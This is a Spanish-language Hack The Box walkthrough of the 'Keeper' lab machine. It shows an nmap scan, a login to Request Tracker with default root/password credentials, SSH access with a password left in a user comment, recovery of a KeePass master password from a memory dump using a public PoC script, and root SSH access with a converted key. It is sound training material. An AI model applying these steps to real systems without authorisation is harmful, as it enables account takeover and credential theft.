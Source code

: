 ```yaml
---
title: Keeper
parent: Easy
nav_order: 2
---
```


# Walkthrough — Keeper (Hack The Box)
{: .fs-9 }

> Recorrido completo y detallado de la máquina **Keeper** de Hack The Box, en la que se explota una configuración por defecto de *Request Tracker*, junto con una fuga de datos sensibles en archivos KeePass.
{: .fs-6 .fw-300 }

---

## 🔰 Introducción

**Keeper** es una máquina de dificultad *fácil*, que presenta una interesante cadena de vulnerabilidades: acceso inicial mediante credenciales por defecto en un sistema de tickets (*Request Tracker*), acceso a usuario por SSH, y posterior escalada a root mediante extracción de contraseñas desde un volcado de KeePass.

- **Sistema operativo**: Linux  
- **Dificultad**: Easy  
- **Herramientas utilizadas**: `nmap`, `burpsuite`, `scp`, `keepassxc`, `puttygen`, `ssh`

---

## 🔍 Escaneo de puertos con Nmap

Iniciamos el reconocimiento con un escaneo completo de puertos usando `nmap`:

```bash
nmap -sC -sV -p- -T4 10.10.11.227
```

![Escaneo con Nmap](/assets/images/keeper/01-nmap.png)

El resultado muestra dos puertos relevantes:
- **22/tcp**: OpenSSH 8.9p1
- **80/tcp**: nginx 1.18.0

---

## 🌐 Acceso al portal web

Al visitar `http://10.10.11.227`, el navegador redirige automáticamente a `http://tickets.keeper.htb`, lo cual nos revela que el sistema utiliza subdominios. El portal web pertenece a la aplicación **Request Tracker (RT)** y muestra un formulario de login.

![Login de RT](/assets/images/keeper/02-rt-login.png)

---

## 🔑 Uso de credenciales por defecto

Basado en documentación de RT, probamos las siguientes credenciales:

- Usuario: `root`
- Contraseña: `password`

El acceso fue exitoso.

![Credenciales por defecto](/assets/images/keeper/03-default-creds.png)

---

## 🧭 Navegación por el panel RT

Una vez dentro, se nos presenta el panel principal del sistema RT.

![Dashboard de RT](/assets/images/keeper/04-rt-dashboard.png)

Desde la sección **Admin → Users**, encontramos un usuario adicional llamado `lnorgaard`.

![Usuarios en RT](/assets/images/keeper/05-users-panel.png)

---

## 🧪 Descubrimiento de contraseña inicial

Editando el perfil del usuario `lnorgaard`, encontramos el siguiente comentario:

```
Initial password set to Welcome2023!
```

![Comentario con contraseña](/assets/images/keeper/06-user-password.png)

---

## 📥 Acceso SSH como lnorgaard

Probamos por SSH con la contraseña obtenida:

```bash
ssh lnorgaard@10.10.11.227
```

¡Acceso exitoso! Dentro del sistema encontramos los archivos `user.txt` y un archivo comprimido `RT30000.zip`.

![Flag de usuario y ZIP](/assets/images/keeper/07-ssh-user-flag.png)

---

## 📤 Transferencia del archivo ZIP

Transferimos el archivo a nuestra máquina con `scp`:

```bash
scp lnorgaard@10.10.11.227:/home/lnorgaard/RT30000.zip .
```

![Transferencia con SCP](/assets/images/keeper/08-scp-zip.png)

---

## 📦 Análisis del ZIP

El archivo contiene dos ficheros:

- `KeePassDumpFull.dmp`
- `passcodes.kdbx`

![Contenido del ZIP](/assets/images/keeper/09-zip-content.png)

---

## 🧠 Extracción de clave con script

Usamos este script público:

https://github.com/matro7sh/keepass-dump-masterkey/blob/main/poc.py

```bash
python3 poc.py -d KeePassDumpFull.dmp
```

Resultado:

```
rødgrød med fløde
```

![Extracción de contraseña](/assets/images/keeper/10-keepass-crack.png)

---

## 🔐 Abrimos KeePassXC

Con `keepassxc` y la contraseña obtenida, abrimos el archivo `.kdbx`:

```bash
keepassxc passcodes.kdbx
```

Dentro hallamos credenciales para el usuario `root` y una clave privada `.ppk`.

![Abriendo base KeePassXC](/assets/images/keeper/11-keepassxc.png)
![Conversión de clave](/assets/images/keeper/12-puttygen.png)
---

## 🔁 Conversión de clave a OpenSSH

Convertimos la clave con `puttygen`:

```bash
puttygen id_rsa.ppk -O private-openssh -o id_rsa
chmod 600 id_rsa
```

![Acceso como root](/assets/images/keeper/13-ssh-root.png)

---

## 🚪 Acceso final como root

Con la clave convertida, accedemos por SSH:

```bash
ssh -i id_rsa root@10.10.11.227
```

![Flag de root](/assets/images/keeper/14-root-flag.png)

---

## 🏁 Flag final

Leemos la flag de root:

```bash
cat /root/root.txt
```



---

## 📊 Resumen

| Etapa           | Resultado                                      |
|-----------------|------------------------------------------------|
| Enumeración     | RT accesible con credenciales por defecto      |
| Explotación     | Usuario con contraseña inicial en comentarios  |
| Escalada I      | SSH como `lnorgaard`                           |
| Escalada II     | Dump de KeePass → acceso root con clave SSH    |
| Flags           | `user.txt` y `root.txt`                        |

---

**Autor:** [gueco99](https://github.com/gueco99)  
🧠 Hack The Box – *Keeper* (Easy)
